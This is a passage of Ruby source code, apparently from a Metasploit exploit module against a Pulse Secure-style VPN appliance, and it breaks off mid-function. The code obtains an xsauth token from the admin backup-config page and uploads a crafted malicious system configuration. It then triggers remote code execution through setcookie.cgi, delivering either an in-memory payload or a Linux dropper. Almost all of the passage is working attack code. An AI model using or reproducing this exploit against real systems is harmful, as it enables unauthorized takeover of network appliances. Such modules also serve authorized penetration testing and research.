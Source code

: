         case target['Type']
        when :unix_memory
          execute_command(payload.encoded)
        when :linux_dropper
          execute_cmdstager(
            linemax: 262144, # 256KiB
            delay: datastore['CMDSTAGER::DELAY']
          )
        end

        logout
      end

      def execute_command(command, _opts = {})
        trigger = Rex::Text.rand_text_alpha_upper(8)
        print_status("Exploit trigger will be at #{normalize_uri('dana-na', 'auth', 'setcookie.cgi')} with a header of #{trigger}")

        config = build_malicious_config(command, trigger)
        res = upload_config(config)

        fail_with(Failure::UnexpectedReply, 'File upload failed') unless res&.code == 200

        print_status('Triggering RCE')
        send_request_cgi({
          'uri' => normalize_uri(target_uri.path, 'dana-na', 'auth', 'setcookie.cgi'),
          'headers' => { trigger => trigger }
        })
      end

      def res_get_xsauth(res)
        res.body.scan(%r{name="xsauth" value="([^"]+)"/>})&.last&.first
      end

      def upload_config(config)
        print_status('Requesting backup config page')
        res = send_request_cgi({
          'uri' => normalize_uri(target_uri.path, 'dana-admin', 'cached', 'config', 'config.cgi'),
          'headers' => { 'Referer' => "#{full_uri('/dana-admin/cached/config/config.cgi')}?type=system" },
          'vars_get' => { 'type' => 'system' }
        })
        fail_with(Failure::UnexpectedReply, 'Failed to request the backup configuration page') unless res&.code == 200
        xsauth = res_get_xsauth(res)
        fail_with(Failure::UnexpectedReply, 'Failed to get the xsauth token') if xsauth.nil?

        post_data = Rex::MIME::Message.new
        post_data.add_part(xsauth, nil, nil, 'form-data; name="xsauth"')
        post_data.add_part('Import', nil, nil, 'form-data; name="op"')
        post_data.add_part('system', nil, nil, 'form-data; name="type"')
        post_data.add_part('8', nil, nil, 'form-data; name="optWhat"')
        post_data.add_part('', nil, nil, 'form-data; name="txtPassword1"')
        post_data.add_part('Import Config', nil, nil, 'form-data; name="btnUpload"')
        post_data.add_part(config, 'application/octet-stream', 'binary', 'form-data; name="uploaded_file"; filename="system.cfg"')
